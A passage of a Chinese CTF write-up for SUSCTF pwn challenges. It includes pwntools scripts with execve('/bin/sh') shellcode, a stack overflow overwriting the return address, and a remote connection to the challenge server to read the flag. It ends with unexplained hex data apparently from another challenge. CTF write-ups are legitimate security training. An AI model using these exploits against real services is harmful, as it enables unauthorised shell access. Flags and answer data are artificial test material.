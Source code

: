 首先通过调用`ctype`调用`srand`与`rand`生成一个xor值，给3个数保证和为291就行了。

![image-20201020155239986](https://timg.reito.fun/archive/typora-schwarzer/image-20201020155239986.png)

随后进入`gift`，可见`buf`大小为`0X50`，明显是ret2text

![image-20201020155354685](https://timg.reito.fun/archive/typora-schwarzer/image-20201020155354685.png)

构建payload就完事了，shellcode在[网上](https://www.exploit-db.com/)找的，最后写入栈地址就行。

```python
buf_start_str = conn.recvline().decode()
print(buf_start_str)
buf_start = int(buf_start_str[buf_start_str.find(':') + 1:], 16)
print(hex(buf_start))

payload = bytes([0x48, 0x31, 0xc0, 0x48, 0x83, 0xc0, 0x3b, 0x48, 0x31, 0xff, 0x57, 0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x48,
                 0x8d, 0x3c, 0x24, 0x48, 0x31, 0xf6, 0x48, 0x31, 0xd2, 0x0f, 0x05])
payload_pad = payload + ('A'*(88 - len(payload))).encode() + p64(buf_start)

print(conn.recv(100, 1))
conn.send(payload_pad)

conn.sendline('cat /flag/flag.txt')
print(conn.recvall(1))
```

![image-20201020155524798](https://timg.reito.fun/archive/typora-schwarzer/image-20201020155524798.png)

获取到flag

```
SUSCTF{ade58670fab14e8356c94fc6d8f60184}
```

## [pwn]babystack

![image-20201020155824397](https://timg.reito.fun/archive/typora-schwarzer/image-20201020155824397.png)

签到题，显然在指定位置比对正确即可。直接上脚本

```python
from pwn import *

conn = remote('146.56.223.95', 20006)
conn.recv(10000, 1)
conn.sendline(' '*48 + 'btis_wants_girlfriends' + '\0');

conn.sendline('cat /flag/flag.txt')
print(conn.recvall(1))
```

![image-20201020155921469](https://timg.reito.fun/archive/typora-schwarzer/image-20201020155921469.png)


[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000